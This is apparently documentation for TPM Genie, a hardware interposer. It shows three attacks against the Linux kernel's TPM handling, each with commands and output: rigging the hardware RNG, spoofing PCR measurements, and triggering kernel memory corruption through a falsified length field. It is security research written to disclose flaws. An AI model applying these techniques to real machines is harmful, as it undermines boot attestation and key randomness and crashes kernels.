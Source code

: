 # TPM Attack Demonstrations

TPM Genie comes pre-configured to conduct a number of attacks against the Linux kernel. These different attack modes are explained below.



## Undermining the Hardware Random Number Generator

To demonstrate attacks against the TPM hardware RNG, first ensure that the `tpm_rng` kernel module is loaded. 

When the TPM is in default passthrough mode, the returned data appears to be suitably random:

```
$ sudo dd if=/dev/hwrng count=1 bs=16 | hexdump
1+0 records in
1+0 records out
16 bytes (16 B) copied, 0.152077 s, 0.1 kB/s
0000000 01 91 55 54 57 06 15 be 4b e3 ba b7 ca 5a c5 a8
0000010
```

However, when TPM Genie is allowed to interpose the `TPM_ORD_GetRandom` command ordinal (press `m` key in the console until `Alter Hardware RNG` state is entered), we observe entirely different output from the HWRNG.

```
$ sudo dd if=/dev/hwrng count=1 bs=16 | hexdump
1+0 records in
1+0 records out
16 bytes (16 B) copied, 0.152077 s, 0.1 kB/s
0000000 aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa
0000010
```

## Spoofing PCR Measurements

In order to demonstrate the act of spoofing PCR measurements, a few simple utilities are provided. The `utils/pcr_extend.py` and `utils/pcr_read.py` scripts can be run on the victim to interact with the `/dev/tpm0` character device and issue `TPM_ORD_PcrExtend` and `TPM_ORD_PcrRead` commands to the TPM chip.

First, we demonstrate normal operation of the PCR Extend ordinal by measuring the string “hello world” and extending the SHA-1 digest into PCR index 1.

```
$ echo -n -e “hello world” > extend_data
$ sudo python3 pcr_extend.py -i 1 -f extend_data

[*] Reading this file:        pcr_extend_data
[*] Computed this digest:     2aae6c35c94fcfb415dbe95f408b9ce91ee846ed
[*] Extending into PCR index: 1
[*] Output digest:            54c528f774ceb1f270ba5349fcabc2a1bd1f10d4

$ sudo python3 pcr_read.py -i 1

PCR  1: 54 c5 28 f7 74 ce b1 f2 70 ba 53 49 fc ab c2 a1 bd 1f 10 d4
```

Next, we demonstrate how the PCR value changes if we modify the string that is measured. The resultant digest is extended into PCR index 2.

```
$ echo -n -e “evil” > other_data
$ sudo python3 pcr_extend.py -i 2 -f extend_data

[*] Reading this file:        other_data
[*] Computed this digest:     b653891162a040e1bfe6e436bdcd93827e0c56e5
[*] Extending into PCR index: 2
[*] Output digest:            ede6e014e28a3458c1dd1aa26f0716616f77384a

$ sudo python3 pcr_read.py -i 2

PCR  2: ed 66 e0 14 e2 8a 34 58 c1 dd 1a a2 6f 07 16 61 6f 77 38 4a
```

Finally, we put TPM Genie into `SPOOF_PCR_EXTEND` mode (press the `m` key). Once again, we attempt to extend the tampered file into PCR index 3.

```
$ sudo python3 pcr_extend.py -i 3 -f other_data

[*] Reading this file:        other_data
[*] Computed this digest:     b653891162a040e1bfe6e436bdcd93827e0c56e5
[*] Extending into PCR index: 3
[*] Output digest:            54c528f774ceb1f270ba5349fcabc2a1bd1f10d4

$ python3 pcr_read.py -i 3

PCR  3: 54 c5 28 f7 74 ce b1 f2 70 ba 53 49 fc ab c2 a1 bd 1f 10 d4
```

Notice that this new PCR value (index 3) is identical to the first PCR value that was set prior to tampering with the measured file (index 1). TPM Genie has replaced the digest of the string “evil” with the digest of the string “hello world” as it was transmitted over the serial bus.

## Inducing Kernel Memory Corruption

During my TPM Interposer research, I discovered a number of kernel vulnerabilities, whereby an interposer could trigger memory corruption by altering TPM response packets. The patches for these bugs are most likely going to land in kernel version `v4.16`.

TPM Genie is able to trigger one such kernel memory corruption bug out-of-the-box. Simply switch interposer modes until you arrive at the `Trigger Kernel Crash` mode. You must also ensure that the `tpm_rng` kernel module is loaded on the victim, then execute the following command:

```
$ sudo dd if=/dev/hwrng bs=1 count=64 | hexdump -C
```

You should see a crash look something like this:

```
[  300.232615] Unable to handle kernel paging request at virtual address c3487d00
[  300.234638] Unable to handle kernel paging request at virtual address 1f11141c
[  300.234645] pgd = 80004000
[  300.234655] [1f11141c] *pgd=00000000
[  300.234672] Internal error: Oops: 80000005 [#1] PREEMPT SMP ARM
[  300.234733] Modules linked in: tpm_rng cfg80211 rfkill tpm_i2c_infineon tpm spi_bcm2835 i2c_bcm2708 bcm2835_gpiom]
[  300.234745] CPU: 3 PID: 0 Comm: swapper/3 Not tainted 4.1.21-v7+ #1
[  300.234750] Hardware name: BCM2709
[  300.234757] task: b9904800 ti: b9936000 task.ti: b9936000
[  300.234768] PC is at 0x1f11141c
[  300.234786] LR is at rcu_process_callbacks+0x65c/0x7a4
[  300.234796] pc : [<1f11141c>]    lr : [<80079620>]    psr: 20000113
[  300.234796] sp : b9937e40  ip : b9214200  fp : b9937e9c
[  300.234801] r10: b9936000  r9 : b9f8fc1c  r8 : 0000000a
[  300.234807] r7 : 1f01141e  r6 : b7373a94  r5 : 00000002  r4 : 00000000
[  300.234814] r3 : 808964c0  r2 : 00000000  r1 : 1f11141e  r0 : b7373a94
```

This proof of concept works very simply. The log from TPM Genie shows exactly what has happened. The TPM hardware returned the expected number of random bytes (`64`), however, TPM Genie altered the `rng_data_len` field from `0x0040` to `0x0FFF`, resuling in a very large memory copy.

```
|        Tnsy < TPM |        | 00 00 00 40 C2 9C 65 93 DC 14 B8 BD 64 90 E0 7A
|                   |        | 2F 1E C8 84 74 57 A9 9B EC 59 9E 6D C8 F5 7E D2
|                   |        | 7B D4 BA 67 01 7D B9 DA 7A 18 22 D3 E8 1D E0 A6
|                   |        | E8 6C 5F 34 77 EA 68 FC 64 02 12 51 13 35 12 F1
|                   |        | 14 D3 F2 3E
|-------------------|--------|--------------------------------
| Host < Tnsy       |        | 00 00 0F FF 41 41 41 41 41 41 41 41 41 41 41 41
|                   |        | 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
|                   |        | 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
|                   |        | 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
|                   |        | 41 41 41 41
```


